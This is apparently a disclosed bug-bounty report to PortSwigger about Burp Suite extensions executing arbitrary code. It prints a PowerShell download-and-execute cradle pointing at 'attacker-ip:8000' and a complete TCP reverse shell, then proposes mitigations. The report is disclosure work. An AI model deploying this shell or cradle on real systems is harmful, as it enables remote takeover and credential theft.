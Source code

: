# Burp Suite extensions can execute arbitrary code

## Report Details
- **Report ID**: 3014158
- **URL**: https://hackerone.com/reports/3014158
- **State**: Closed
- **Severity**: high
- **Submitted**: 2025-02-26T13:33:31.879Z
- **Disclosed**: 2025-02-26T13:52:23.646Z

## Reporter
- **Username**: iamunixtz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: portswigger

## Vulnerability Information
**Dear PortSwigger Security Team,**

I hope you’re doing well. I’m reaching out to share a security concern regarding Burp Suite’s extension framework that could allow an attacker to compromise a machine by executing untrusted code. While Burp Suite offers powerful extensibility, this flexibility can also introduce significant security risks if an attacker crafts a malicious extension. This research highlights a attack vector that allows code execution, leading to full system compromise, including reverse shells and persistent access.

## **Overview of the Issue**
Burp Suite extensions, when installed and executed, run with the same privileges as the user. This means that an attacker can embed arbitrary system commands inside an extension that, when loaded, will execute malicious payloads. This could include actions such as:
- Running a reverse shell to an attacker-controlled machine.
- Downloading and executing remote payloads.
- Capturing keystrokes, screenshots, and other sensitive data.
- Bypassing security measures by running malicious actions in the background.

For this demonstration, I will showcase how an attacker can embed seemingly harmless functionality inside a Burp extension while covertly executing malicious actions in the background.


## **Demonstration of the Attack**
To illustrate this, I created a Burp extension that appears to perform simple tasks such as opening Notepad and Calculator. However, in reality, it also performs the following malicious actions:
1. **Creates a hidden PowerShell script** (`poc.ps1`).
2. **Executes the PowerShell script**, which opens a reverse shell to an attacker’s machine.
3. **Opens a backdoor using `nc` (Netcat)** to maintain persistent access.
4. **Runs system-level commands**, such as accessing the webcam, stealing credentials, or modifying system settings.

### **Code Breakdown**
Below is a breakdown of the extension’s malicious functionality:

1. **Executing Arbitrary System Commands (e.g., Calculator, Notepad, Webcam)**
   ```python
   subprocess.Popen(["calc.exe"], shell=True)  # Opens Calculator
   subprocess.Popen(["notepad.exe", "poc.txt"], shell=True)  # Opens Notepad with a file
   subprocess.Popen(["start", "microsoft.windows.camera:"], shell=True)  # Opens Camera
   ```
   While these actions seem harmless, they demonstrate the ability to execute system commands within an extension.

2. **Creating and Writing to a PowerShell Script**
   ```python
   file_path = os.path.join(os.getcwd(), "burpextension", "poc.ps1")
   with open(file_path, "w") as file:
       file.write("Start-Process powershell -ArgumentList '-NoP -NonI -W Hidden -Exec Bypass -C \"IEX(New-Object Net.WebClient).DownloadString(\'http://attacker-ip:8000/rev.ps1\')\"'")
   ```
   This script downloads and executes a remote PowerShell payload, providing the attacker with control over the compromised system.

3. **Executing the Malicious PowerShell Script**
   ```python
   subprocess.Popen(["powershell.exe", "-ExecutionPolicy", "Bypass", "-File", file_path], shell=True)
   ```
   This runs the PowerShell script, enabling remote access for the attacker.

4. **Establishing a Reverse Shell with Netcat**
   ```powershell
   $client = New-Object System.Net.Sockets.TCPClient("attacker-ip",4444);
   $stream = $client.GetStream();
   [byte[]]$bytes = 0..65535|%{0};
   while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
       $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
       $sendback = (iex $data 2>&1 | Out-String );
       $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
       $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
       $stream.Write($sendbyte,0,$sendbyte.Length);
       $stream.Flush()
   }
   ```
   This establishes a persistent reverse shell, allowing full system access.

**While Burp Suite does provide an extension signing feature, many users disable it or install extensions from unverified sources, making them vulnerable.**

##Full pwn Poc
{F4093216}

## **Mitigations & Recommendations**
To address this issue, I propose the following mitigations:
1. **Restrict System Commands in Extensions**
   - Prevent direct execution of `subprocess.Popen()`, `os.system()`, or PowerShell commands inside extensions.
   - Introduce an API restriction that blocks execution of commands unless explicitly allowed by the user.

2. **Extension Code Review & Sandboxing**
   - Implement a sandboxing mechanism that restricts what an extension can execute.
   - Require explicit user confirmation before an extension can execute system commands.

3. **Enforce Digital Signing for Extensions**
   - Require all extensions to be signed and verified before execution.
   - Warn users when installing unsigned extensions.

4. **Monitor and Log Extension Behavior**
   - Implement logging for all system commands executed by an extension.
   - Alert users if an extension attempts to execute unauthorized actions.

## **Conclusion**
This research demonstrates how a malicious Burp Suite extension can be used as a Trojan horse to execute arbitrary system commands, including launching a reverse shell. Given that Burp Suite is widely used by security professionals, pentesters, and even corporate environments, it is critical to enforce stricter controls on extension execution to prevent abuse.

I appreciate your time in reviewing this report, and I hope this helps improve the security of Burp Suite. Please let me know if you need further details or if I can assist with any additional testing.

Looking forward to your feedback!

## Impact

The primary issue is that Burp Suite extensions execute code with the same privileges as the user. If an attacker manages to convince a target to install a malicious extension, they can:
- Gain **persistent access** to the system.
- Execute **arbitrary system commands** in the background.
- Steal **sensitive data** without detection.
- **Bypass security measures** by executing trusted processes (e.g., PowerShell, cmd.exe, or Windows utilities).

## Attachments
- pocextension.py
- pwn_by_burp.mp4
- pwn_by_burp.mp4
- pwn_by_burp.mp4
